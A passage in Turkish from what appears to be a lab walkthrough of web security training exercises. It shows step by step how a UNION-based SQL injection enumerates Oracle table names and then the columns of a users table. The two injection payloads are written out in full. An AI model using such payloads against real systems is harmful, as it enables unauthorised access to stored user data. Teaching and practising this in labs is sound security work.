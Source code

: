 Daha sonra tablo isimlerini getiriyoruz. Buradaki tablo isimlerini kontrol ettiğimizde kullanıcılarla ilgili olan tablonun “**USERS_XEDOYY**” olduğunu görmekteyiz.

```python
mdisec' UNION SELECT table_name,null FROM all_tables --
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2029.png)

Şimdi de bu tablodan veri çekmeliyiz. Bunun için de bu şekilde ilerleyebiliriz. Burada da kolon isimlerini elde etmekteyiz.

```python
mdisec' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XEDOYY'--
```
